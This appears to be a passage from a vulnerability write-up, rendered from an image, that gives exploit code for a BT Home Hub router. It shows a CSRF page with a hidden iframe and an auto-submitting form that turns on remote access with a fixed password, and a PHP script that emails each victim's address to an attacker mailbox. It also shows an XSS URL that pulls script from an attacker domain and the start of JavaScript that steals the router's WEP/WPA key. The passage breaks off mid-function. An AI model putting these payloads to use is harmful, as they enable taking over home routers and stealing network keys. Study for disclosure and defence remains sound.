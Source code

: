     <body>

    <iframe onload="redirect()" frameborder=0 height=0 width=0
    src="./ras.html"></iframe>

    </body>
    </html>

    <html>
    <!-- ras.html -->
    <head></head>
    <body>

    <form name='raccess'
    action='http://192.168.1.254/cgi/b/ras//?ce=1&be=1&l0=5&l1=5'
    method='post'>
    <input type='hidden' name='0' value='31'>
    <input type='hidden' name='1' value=''>
    <input type='hidden' name='30' value='12345678'>
    <!-- <input type='submit' value="own it!"> -->
    </form>
    <script>document.raccess.submit();</script>
    </body>
    </html>

    <?php
    // notify.php
    define("RCPT_EMAIL", "bthomehubevil@mailinator.com");
    define("EMAIL_SUBJECT", "[OWNED]");

    $messagebody="victim: https://".$_SERVER['REMOTE_ADDR'].":51003\n";
    mail(RCPT_EMAIL, EMAIL_SUBJECT, $messagebody);
    ?>

    ### Exploit #2: Steal page containing WEP/WPA key

    The following exploit simply steals the WEP/WPA key from the router. In some situations this is all the attackers need. The exploit URL looks like the following:

    http://192.168.1.254/cgi/b/ic/connect/?url="><script%20src=http://www.attackersdomain.com/xss.js></script><a%20b%3d

    // xss.js

    // important - won't work without having a body
    document.write("<body>");

    // xhr() - WORKS ON BOTH FF2 AND IE7!
    // original code from developer.apple.com
    var req;

    // we steal the page that returns the WEP/WPA key. no auth required, can you believe it?

    var url="/cgi/b/_wli_/seccfg/?ce=1&be=1&l0=4&l1=0";

    function loadXMLDoc(url)
    {
            req = false;
            // branch for native XMLHttpRequest object
            if(window.XMLHttpRequest && !(window.ActiveXObject))
            {
                    try
                    {
                            req = new XMLHttpRequest();
                    }
                    catch(e)
                    {
                            req = false;
                    }
            // branch for IE/Windows ActiveX version